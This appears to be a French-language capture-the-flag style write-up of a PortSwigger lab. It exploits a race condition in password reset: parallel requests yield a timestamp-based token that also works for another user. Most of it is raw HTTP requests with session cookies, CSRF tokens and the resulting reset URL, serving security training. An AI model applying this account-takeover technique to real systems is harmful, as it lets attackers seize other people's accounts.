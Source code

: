 # Lab

https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities

## Payload

On peut réinitialiser le mot de passe d'un utilisateur en fournissant son nom d'utilisateur et en cliquant sur le bouton "Reset password".

```
POST /forgot-password HTTP/2
Host: 0ad7009a0327f04f8099b81b001200ab.web-security-academy.net
Cookie: phpsessionid=sGSMcP4wpDeKSnoeWumsRgatT9rnDMfk
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

csrf=7bih2OtLgGsNqZNeHWRNBvIBoCgFOK6c&username=wiener
```

Il y a un jeton CSRF dans la requête. On peut le récupérer en faisant une requête GET sur la page de réinitialisation du mot de passe.

En mettant deux sessions PHP différentes et deux jetons CSRF valides dans deux requêtes différentes et en les lanceant en parallèle, on peut réinitialiser le mot de passe de l'utilisateur carlos et obtenir le même jeton de réinitialisation de mot de passe puisque le jeton se base sur un timestamp (on a pas l'info mais c'est un guess).

Ca ne fonctionne pas avec la même session PHP car il y surement un blocage / restriction par session ce qui empeche de faire des requêtes en parallèle pour le même utilisateur.

```
POST /forgot-password HTTP/2
Host: 0ad7009a0327f04f8099b81b001200ab.web-security-academy.net
Cookie: phpsessionid=sGSMcP4wpDeKSnoeWumsRgatT9rnDMfk
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

csrf=7bih2OtLgGsNqZNeHWRNBvIBoCgFOK6c&username=wiener
```

```
POST /forgot-password HTTP/2
Host: 0ad7009a0327f04f8099b81b001200ab.web-security-academy.net
Cookie: phpsessionid=x6yUZis5id2FmZ8OE7wLzfblYYi14QQx
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

csrf=ZQvEEvPWUmt0evGk52apjkL7T6Elrg6l&username=carlos
```

Ca nous donne une URL : `https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net/forgot-password?user=wiener&token=80757efc3fb402d20338ef11444f292cb0a6e80b`.

Le jeton doit être le même si uniquement un timestamp est utilisé pour le générer.

On a juste a changer le nom d'utilisateur dans l'URL pour réinitialiser le mot de passe de l'utilisateur carlos.

`https://0ad7009a0327f04f8099b81b001200ab.web-security-academy.net/forgot-password?user=carlos&token=80757efc3fb402d20338ef11444f292cb0a6e80b`.